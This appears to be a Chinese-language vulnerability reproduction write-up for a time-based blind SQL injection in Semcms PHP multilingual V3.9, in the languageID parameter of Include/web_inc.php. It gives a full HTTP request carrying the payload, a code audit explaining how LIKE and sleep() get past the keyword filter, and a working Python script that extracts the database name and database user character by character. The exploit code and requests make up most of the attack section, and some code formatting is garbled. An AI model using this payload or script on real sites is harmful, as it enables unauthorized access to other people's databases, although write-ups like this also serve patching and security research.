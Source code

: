 ```yaml
---
title: "Semcms PHP(多语)版 V3.9 sql注入漏洞"
id: zhfly3124
---
```


# Semcms PHP(多语)版 V3.9 sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

Semcms PHP(多语)版 V3.9

## 三、复现过程

### 漏洞详情

漏洞文件为Include下的web_inc.php文件

包

```
POST /Include/web_inc.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
Content-Length: 64
Content-Type: application/x-www-form-urlencoded `languageID=0 or if(substr(database(),1,1) like 0x6D,sleep(5),1);` 
```

基于时间的注入

### 代码审计

查看web_inc.php的关键代码

```
if (isset($_POST["languageID"])){$Language=test_input(verify_str($_POST["languageID"]));}else{$Language=verify_str($Language);}

if(!empty($Language)){

```
 //网站SEO设定

  $query=$db_conn-&gt;query("select * from sc_tagandseo where languageID=$Language");
  $row=mysqli_fetch_array($query);
  $tag_indexmetatit=datato($row['tag_indexmetatit']);// 首页标题
  $tag_indexkey=datato($row['tag_indexkey']);// 首页关键词
  $tag_indexdes=datato($row['tag_indexdes']);// 首页描述 
``` `…` 
```

可以看到查询语句没有利用单引号闭合

跟入过滤函数查看

```
function test_input($data) { 
      $data = str_replace("%", "percent", $data);
      $data = trim($data);
      $data = stripslashes($data);
      $data = htmlspecialchars($data,ENT_QUOTES);
      return $data;

}

function inject_check_sql($sql_str) {

```
 return preg_match('/select|insert|=|%|&lt;|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str); 
```

}

function verify_str($str) {

if(inject_check_sql($str)) {

```
 exit('Sorry,You do this is wrong! (.-.)');
} 

return $str; 
``` `}` 
```

过滤了一些关键字，正常的联合注入是没有办法了，可以时间盲注

利用`if`和`sleep`构造payload，因为`<`,`=`被过滤且存在`htmlspecialchars`函数，利用like代替

```
languageID=0 or if(substr(database(),1,1) like 0x6e,sleep(5),1); 
```

附上脚本

```
# !/usr/bin/python3
# -*- coding:utf-8 -*-
# author: Forthrglory

import requests

def getDatabase(url):

s = ‘’

r = requests.session()

head = {‘Content-Type’:‘application/x-www-form-urlencoded’}

```
for i in range(1,9):
    for j in range(97,122):
        data = 'languageID=0 or if(substr(database(),%s,1) like %s,sleep(5),1);' % (i,hex(j))

        result = r.post(url, data, headers=head)

        if(result.elapsed.total_seconds() &gt; 5):
            s = s + chr(j)
            print(s)
            break
print('database=' + s) 
```

def getUser(url):

s = ‘’

r = requests.session()

head = {‘Content-Type’:‘application/x-www-form-urlencoded’}

```
for i in range(1,21):
    for j in range(64,90):
        data = 'languageID=0 or if(substr(user(),%s,1) like %s,sleep(5),1);' % (i,hex(j))

        result = r.post(url, data, headers=head)

        if(result.elapsed.total_seconds() &gt; 5):
            s = s + chr(j).lower()
            print(s)
            break
print('user=' + s) 
```

if **name** == ‘**main**’:

url = ‘[http://127.0.0.1/Include/web_inc.php](http://127.0.0.1/Include/web_inc.php)’

```
s = getDatabase(url)
u = getUser(url) 
``` 
```

运行截图

![image](../img/dc8682fbdb9886e3caccc21cd76d7f66.png)

![image](../img/48fd42f45c1df272f00e48691c108a5a.png)

不过因为过滤了select，暂时不知道怎么注出数据ORZ，比如说注出user表中的密码之类的，如果有师傅愿意不吝赐教，这里万分感谢

## 参考链接

> https://xz.aliyun.com/t/7122